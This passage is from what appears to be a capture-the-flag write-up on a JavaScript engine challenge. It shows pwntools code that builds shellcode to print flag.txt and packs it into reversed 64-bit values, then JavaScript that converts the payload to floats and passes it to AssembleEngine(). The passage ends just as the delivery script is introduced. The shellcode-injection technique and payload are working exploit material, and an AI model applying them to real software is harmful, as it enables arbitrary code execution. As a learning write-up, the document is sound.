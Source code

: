 We want to convert `shellcode` to bytes, then to 64-bit integers so we can transform them to floats. Additionally, the 64-bit integers have to have the bytes **in reverse order** for endiannes! We'll let python do all of that for us:

```python
from pwn import *

# set all the context
context.os = 'linux'
context.arch = 'amd64'

# create the shellcode
shellcode = asm(shellcraft.cat('flag.txt'))
print(shellcode)
# pad it to a multiple of 8 with NOP instructions
# this means the converstion to 8-byte values is smoother
shellcode += b'\x90' * 4

# get the hex codes for every byte and store them as a string in the list
shellcode = [hex(c)[2:].rjust(2, '0') for c in shellcode]
# get the shellcode bytes in packs of 8, in reverse order for endianness, with 0x at the front
eight_bytes = ['0x' + ''.join(shellcode[i:i+8][::-1]) for i in range(0, len(shellcode), 8)]
print(eight_bytes)
```

We can dump this (after minor cleanup) into `exploit.js` and convert the entire list to floats before calling `AssembleEngine()`. Make sure you put the `n` after every 64-bit value, to signify to the javascript that it's a `BigInt` type!

```javascript
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

// needs to have the `n` to be a BigInt value!
payload = [0x66b848240cfe016an, 0x507478742e67616cn, 0xf631e7894858026an, 0x7fffffffba41050fn, 0x016a58286ac68948n, 0x90909090050f995fn]
payload_float = []

for (let i = 0; i < payload.length; i++) {
    payload_float.push(itof(payload[i]))
}

AssembleEngine(payload_float)
```

And finally we can deliver it with a python script using `pwntools`, and parse the input to get the important bit:
